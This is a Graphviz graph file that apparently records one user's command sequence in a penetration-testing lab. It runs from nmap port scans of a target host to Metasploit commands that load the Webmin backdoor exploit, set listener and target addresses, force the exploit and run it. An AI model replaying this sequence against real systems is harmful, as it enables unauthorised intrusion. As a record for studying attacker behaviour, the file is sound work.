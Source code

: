 // creating graph for user: 91
digraph {
	node [shape=box]
	0 [label="nmap -h A0 "]
	1 [label="nmap -h A0 "]
	2 [label="nmap -p 1-65535 172.18.1.5 A0 "]
	3 [label="nmap -A -p 10000 172.18.1.5 A0 "]
	4 [label="msfconsole U"]
	5 [label="use exploit/linux/http/webmin_backdoor U"]
	6 [label="use exploit/unix/http/webmin_backdoor U"]
	7 [label="search webmin U"]
	8 [label="use exploit/unix/webapp/webmin_backdoor  U"]
	9 [label="show options U"]
	10 [label="set lhost 10.1.135.83 U"]
	11 [label="set rhosts 172.18.1.5 U"]
	12 [label="show targets U"]
	13 [label="show options U"]
	14 [label="exploit  U"]
	15 [label="set srvhost 10.1.135.83 U"]
	16 [label="exploit  U"]
	17 [label="show options U"]
	18 [label="set ForceExplot U"]
	19 [label="set ForceExploit U"]
	20 [label="set ForceExploit true U"]
	21 [label="exploit U"]
	0 -> 1 [constraint=false]
	1 -> 2 [constraint=false]
	2 -> 3 [constraint=false]
	3 -> 4 [constraint=false]
	4 -> 5 [constraint=false]
	5 -> 6 [constraint=false]
	6 -> 7 [constraint=false]
	7 -> 8 [constraint=false]
	8 -> 9 [constraint=false]
	9 -> 10 [constraint=false]
	10 -> 11 [constraint=false]
	11 -> 12 [constraint=false]
	12 -> 13 [constraint=false]
	13 -> 14 [constraint=false]
	14 -> 15 [constraint=false]
	15 -> 16 [constraint=false]
	16 -> 17 [constraint=false]
	17 -> 18 [constraint=false]
	18 -> 19 [constraint=false]
	19 -> 20 [constraint=false]
	20 -> 21 [constraint=false]
	rankdir=LR
}
